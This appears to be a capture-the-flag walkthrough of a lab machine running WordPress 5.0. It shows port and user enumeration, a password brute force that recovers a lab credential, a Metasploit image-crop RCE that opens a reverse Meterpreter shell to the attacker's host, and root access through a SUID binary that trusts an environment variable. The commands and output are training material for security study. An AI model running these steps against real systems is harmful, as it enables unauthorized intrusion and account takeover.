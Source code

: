 Difficult: Medium
----------------------------
Note: "Billy Joel made a Wordpress blog on his home computer and has started working on it.  It's going to be so awesome!"
      "Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole..."
----------------------------
 + Scan the ports and enumerate the available directories.

 ```bash
	$ nmap -sV -vv -A -T4 -p- <IP>
	PORT    STATE SERVICE     REASON         VERSION
	22/tcp  open  ssh         syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
	| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3hfvTN6e0P9PLtkjW4dy+6vpFSh1PwKRZrML7ArPzhx1yVxBP7kxeIt3lX/qJWpxyhlsQwoLx8KDYdpOZlX5Br1PskO6H66P+AwPMYwooSq24qC/Gxg4NX9MsH/lzoKnrgLDUaAqGS5ugLw6biXITEVbxrjBNdvrT1uFR9sq+Yuc1JbkF8dxMF51tiQF35g0Nqo+UhjmJJg73S/VI9oQtYzd2GnQC8uQxE8Vf4lZpo6ZkvTDQ7om3t/cvsnNCgwX28/TRcJ53unRPmos13iwIcuvtfKlrP5qIY75YvU4U9nmy3+tjqfB1e5CESMxKjKesH0IJTRhEjAyxjQ1HUINP
	|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJtovk1nbfTPnc/1GUqCcdh8XLsFpDxKYJd96BdYGPjEEdZGPKXv5uHnseNe1SzvLZBoYz7KNpPVQ8uShudDnOI=
	|   256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICfVpt7khg8YIghnTYjU1VgqdsCRVz7f1Mi4o4Z45df8
	80/tcp  open  http        syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
	|_http-generator: WordPress 5.0
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
	|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
	|_http-server-header: Apache/2.4.29 (Ubuntu)
	| http-robots.txt: 1 disallowed entry 
	|_/wp-admin/
	139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
 ```
 + We use tool "WPScan" to scan the page WordPress:
 + Link Git: "https://github.com/wpscanteam/wpscan?tab=readme-ov-file"
 ```bash
	$ wpscan --url=<IP> -e u
	_______________________________________________________________
	         __          _______   _____
	         \ \        / /  __ \ / ____|
	          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
	           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
	            \  /\  /  | |     ____) | (__| (_| | | | |
	             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

	         WordPress Security Scanner by the WPScan Team
	                         Version 3.8.25
	       Sponsored by Automattic - https://automattic.com/
	       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
	_______________________________________________________________

	[+] URL: http://10.10.24.188/ [10.10.24.188]
	[+] Started: Sat Aug 24 11:45:54 2024

	Interesting Finding(s):
	[+] WordPress version 5.0 identified (Insecure, released on 2018-12-06).
	 | Found By: Emoji Settings (Passive Detection)
	 |  - http://10.10.24.188/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.0'
	 | Confirmed By: Meta Generator (Passive Detection)
	 |  - http://10.10.24.188/, Match: 'WordPress 5.0'

	[i] The main theme could not be detected.

	[+] Enumerating Users (via Passive and Aggressive Methods)
	 Brute Forcing Author IDs - Time: 00:00:01 <==> (10 / 10) 100.00% Time: 00:00:01

	[i] User(s) Identified:

	[+] bjoel
	 | Found By: Wp Json Api (Aggressive Detection)
	 |  - http://10.10.24.188/wp-json/wp/v2/users/?per_page=100&page=1
	 | Confirmed By:
	 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
	 |  Login Error Messages (Aggressive Detection)

	[+] kwheel
	 | Found By: Wp Json Api (Aggressive Detection)
	 |  - http://10.10.24.188/wp-json/wp/v2/users/?per_page=100&page=1
	 | Confirmed By:
	 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
	 |  Login Error Messages (Aggressive Detection)

	[+] Karen Wheeler
	 | Found By: Rss Generator (Aggressive Detection)

	[+] Billy Joel
	 | Found By: Rss Generator (Aggressive Detection)

 ```

 + We have 2 username can try to login /wp-admin: bjoel and kwheel
 + Try to brute force username with WPScan
 ```bash
   $ wpscan --url=<IP> -U kwheel -P /usr/share/wordlists/rockyou.txt -t18
   ^[[31m[!]^[[0m Valid Combinations Found:
 	Username: kwheel, Password: cutiepie1
 ```
-> We have login /wp-admin with user kwheel
+ We have another info WordPress version 5.0
+ Search the vulnerable WordPress 5.0 and find it. This is CVE-2019-8943 and CVE-2019-8942 
+ We can use Metasploit to exploit it. Link: "https://www.exploit-db.com/exploits/46662"
```bash
	msf6 exploit(multi/http/wp_crop_rce) > exploit 

	[*] Started reverse TCP handler on 10.11.101.46:4444 
	[*] Authenticating with WordPress using kwheel:cutiepie1...
	[+] Authenticated with WordPress
	[*] Preparing payload...
	[*] Uploading payload
	[+] Image uploaded
	[*] Including into theme
	[*] Sending stage (39927 bytes) to 10.10.24.188
	[*] Meterpreter session 1 opened (10.11.101.46:4444 -> 10.10.24.188:55654) at 2024-08-24 12:06:18 +0700
	[*] Attempting to clean up files...

	meterpreter > id
	[-] Unknown command: id. Run the help command for more details.
	meterpreter > shell
	Process 3252 created.
	Channel 1 created.
	id
	uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

###Privilege Escalation:
+ We can search file SUID to find some interesting files.
```bash
	find / -uid 0 -perm -4000 -type f 2>/dev/null
	/usr/sbin/checker
```
-> /usr/sbin/checker is potential
+ Run it and we recivce the notification: "Not an Admin"
+ We can try to see library call of a given program /usr/sbin/checker
```bash
	$ ltrace /usr/sbin/checker
	getenv("admin")                                  = nil
	puts("Not an Admin")                             = 13
	Not an Admin
	+++ exited (status 0) +++

```
+ Explain: 
    getenv("admin"): This function checks if an environmenst variable named "admin" is set. If it is, it returns the value of that variable. If not, it returns nil.
    = nil: This is the result of the getenv function call. In this case, it's nil, indicating that the "admin" environment variable is not set.

+ We can use IDA tool or Ghidra to see Pseudocode of program /usr/sbin/checker:
 IDA decomplier:
```bash
	int __fastcall main(int argc, const char **argv, const char **envp)
	{
	  if ( getenv("admin") )
	  {
	    setuid(0);
	    system("/bin/bash");
	  }
	  else
	  {
	    puts("Not an Admin");
	  }
	  return 0;
      }

``` 
+ In this case environment variable "admin" is not set so we set the "admin". Use export to set
```bash
	export admin = admin
	ltrace /usr/sbin/checker
	getenv("admin")                                  = "admin"
	setuid(0)                                        = -1
	system("/bin/bash"

``` 

+ Run again and gain the root !!!
```bash
	/usr/sbin/checker
	id
	uid=0(root) gid=33(www-data) groups=33(www-data)
```

END!!!
